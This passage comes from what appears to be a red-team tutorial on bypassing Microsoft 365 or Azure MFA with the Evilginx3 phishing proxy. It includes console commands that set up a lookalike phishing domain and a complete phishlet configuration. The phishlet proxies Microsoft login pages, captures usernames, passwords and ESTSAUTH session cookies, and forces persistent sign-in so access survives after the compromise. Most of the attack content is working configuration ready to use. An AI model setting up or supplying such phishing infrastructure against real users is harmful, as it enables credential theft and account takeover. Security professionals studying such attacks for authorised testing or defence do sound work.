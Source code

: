 ![](bypass-azure-mfa-with-evilginx-3.png)

We need to specify the path to a directory containing our Evilginx phishlets. Phishlets are small YAML configuration files that configure Evilginx to target specific websites for phishing attacks. The example phishlet exists in the phishlets directory by default.

![](bypass-azure-mfa-with-evilginx-4.png)

Next, we need to configure the domain and provide Evilginx with the public IP address of the VM (or any redirector you have configured) for our phishing campaign. You can register a domain if needed. We have used the domain `aka-portal-azure.com`. 
```
config ipv4 external 32.210.63.30
config domain aka-portal-azure.com
```

The Azure portal is located at https://portal.azure.com and we get redirected to https://login.microsoftonline.com to login. We can use one of the many phishlets that are available online and confirmed working with Evilginx3.

The phishlet below named [o365-mfa](https://github.com/faelsfernandes/evilginx3-phishlets/blob/main/o365-mfa.yaml) is designed to target Microsoft Office 365 services with a focus on bypassing multi-factor authentication (MFA). It configures Evilginx to intercept traffic from multiple Microsoft domains, including login portals for Microsoft Online, Office, Outlook and Live.com. The phishlet captures authentication tokens and credentials by mimicking these websites and logging post data for usernames and passwords. Additionally, it manipulates certain form submissions to force settings that facilitate phishing, like ensuring the 'remember MFA' setting is turned on, allowing access to be maintained even after the initial compromise.
```
name: 'o365-mfa'
author: '@faelsfernandes'
min_ver: '2.4.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing:false}
  - {phish_sub: 'device.login', orig_sub: 'device.login', domain: 'microsoftonline.com', session: true, is_landing:true}
  - {phish_sub: 'outlook', orig_sub: 'www', domain: 'outlook.com', session: false, is_landing:true}
  - {phish_sub: 'login', orig_sub: 'login', domain: 'live.com', session: false, is_landing:true}

sub_filters:
auth_tokens:
  - domain: '.login.microsoftonline.com'
    keys: ['ESTSAUTH', 'ESTSAUTHPERSISTENT','SignInStateCookie',]
  - domain: 'login.microsoftonline.com'
    keys: ['ESTSAUTHLIGHT']   
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'     
login:
  domain: 'login.microsoftonline.com'
  path: '/' 
force_post:
  - path: '/kmsi'
    search: 
      - {key: 'LoginOptions', search: '.*'}
    force:
      - {key: 'LoginOptions', value: '1'}
```
